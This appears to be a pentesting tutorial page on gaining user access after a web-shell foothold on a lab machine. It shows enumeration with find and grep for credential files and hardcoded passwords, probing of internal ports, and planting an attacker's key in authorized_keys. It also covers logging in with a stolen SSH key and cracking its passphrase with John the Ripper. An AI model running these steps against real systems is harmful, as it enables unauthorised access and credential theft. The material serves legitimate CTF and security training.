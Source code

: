 # User

 - [Basic Enumeration](User.md#basic-enumeration)
 - [Secure Shell (SSH)](User.md#secure-shell-ssh)
 - [Password Cracking](User.md#password-cracking)

## Basic Enumeration
The ability to detect anomalies and find assets in the filesystem is very important at this stage  
since majority of the vectors to user are likely to be backup files, plain text passwords in code,  
and services that are open only on localhost.

```
Command Breakdown:
    ls: List directory contents
    -a: Do not ignore entries starting with `.`
    -l: Use a long listing format (shows permissions and owner)
```

```console
www-data@example:~$ ls -al /home
total 16
drwxr-xr-x 1 root root   8 Feb  8 03:18 .
drwxr-xr-x 1 root root 302 Jul  4 13:10 ..
drwxr-xr-x 1 user user 966 Jul 12 16:30 user
```

### Finding a file by its name
```
Command Breakdown:
    find: Search for files in a directory hierarchy
    /var/: The directory to search in
    -iname "*credentials*": Show files that contain the case insensitive word "credentials" anywhere in the name
    2>/dev/null: Redirect standard error away from the screen so that it doesn't display "Permission denied" 
```

```console
www-data@example:~$ find /var/ -iname "*credentials*" 2>/dev/null
/var/log/sneakydir/Credentials.tar.gz
```

### Finding a file by its contents
```
Command Breakdown:
    grep: Print lines matching a pattern
    -w: Word regexp, match only if the entire word matches the search
    -i: Ignore case distinction
    -n: Include line number
    -r: Read all files under each directory, recursively.
    /var/www/: Directory to start search
    -e "password": Search pattern
```

```console
www-data@example:~$ grep -winr /var/www/ -e "password"
/var/www/html/login.php:8:        if(Password != 'P@5sw0Rd!'){
```

### Internal Network 
```
Command Breakdown:
    netstat: Print network connections and interface information
    -t: Show TCP connections
    -u: Show UDP connections
    -l: Show only listening sockets
    -n: Numeric addresses and ports instead of names
```

```console
www-data@example:~$ netstat -tuln
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:9126          0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp6       0      0 :::80                   :::*                    LISTEN
tcp6       0      0 :::22                   :::*                    LISTEN
udp        0      0 127.0.0.53:53           0.0.0.0:*                     
```
Whenever a port is bound to the local address `0.0.0.0` or `:::`, it means that it's bound on every network interface.  
Whenever a port is bound to the local address `127.0.0.1`, it means that it's only accessible internally.  
If I found a normal port open internally like 3306(MySQL), I'd try to find credentials for it and access the database.  
If I found a strange port open internally like 9126, I'd connect to it with `telnet` and see if I can give any commands.  

```
Command Breakdown:
    telnet: User interface to the TELNET protocol
```

```console
www-data@example:~$ telnet localhost 9126
Trying ::1...
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.

version
Example v1.5.3
```

## Secure Shell (SSH)
When you connect to a server over SSH, you'll need some form of authentication;  
this authentication can come in the form of an account password or private key.  
If you can't use an account password, then your option would be to either find the user's private key,  
or to generate your own key and add the public key to the user's authorized keys.

### Generating a private key
```
Command Breakdown:
    ssh-keygen: Authentication key generation
```

```console
user@parrot:~$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/user/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Your identification has been saved in /home/user/.ssh/id_rsa
Your public key has been saved in /home/user/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:7x5Ct7B4LymJHTisHlRT/f12J4ausyesor+md3kOLL8 user@parrot
The key's randomart image is:
+---[RSA 4096]----+
|      ..         |
|     .  .        |
|    o    . .     |
|   . .    . .    |
|  .. .  S .  o   |
| .  + .+ = .. = o|
|  .. +oo*++. o o.|
|  ... B+===.o    |
| .. o*o=EBB*     |
+----[SHA256]-----+

user@parrot:~$ ls -al .ssh
total 12
drwx------ 1 user user   54 Jul 12 22:58 .
drwxr-xr-x 1 user user  928 Jul 12 19:37 ..
-rw------- 1 user user 3381 Jul 13 00:21 id_rsa
-rw-r--r-- 1 user user  737 Jul 13 00:21 id_rsa.pub
```

### Authorized keys
Appending the contents of your public key (id_rsa.pub) to the user's authorized keys  
allows you to use your own key to connect to the target without a password.

```console
user@example:~$ echo "ssh-rsa AAAA ... w== user@parrot" >> /home/user/.ssh/authorized_keys
```

### Using an acquired private key
Once you find an SSH key, like `id_rsa`, you need to set it to read and write for only the user with chmod,  
then you can use it with SSH to log directly into the target.

```console
user@parrot:~$ sudo chmod 600 acquired_id_rsa
user@parrot:~$ ssh -i acquired_id_rsa user@10.10.10.10
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-109-generic x86_64)
Last login: Mon Jul 13 06:09:46 2020 from 10.10.15.2
user@example:~$ 
```

## Password Cracking
Since you can take SSH private keys and use them against the target, they're a prime asset to look for,  
but sometimes they can be password protected. This could just as easily have been an MD5 hash or a shadow file entry.
If it doesn't automagically detect the right format, then you'll have to check what you can use with `john --list=subformats`.

```
Command Breakdown:
    ssh2john.py: Conversion script to take an ssh key and convert it to a workable file for John The Ripper
    > hash.txt: Direct standard out into the file hash.txt
    
    john: A tool to find weak passwords of your users
    --wordlist=: Set the wordlist to rockyou.txt, a large standard list of passwords
    hash.txt: The location of the hash you're targeting.
```

```console
user@parrot:~$ /./usr/share/john/ssh2john.py acquired_id_rsa > hash.txt
user@parrot:~$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 5 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
!august1993$     (acquired_id_rsa)
Session aborted
```
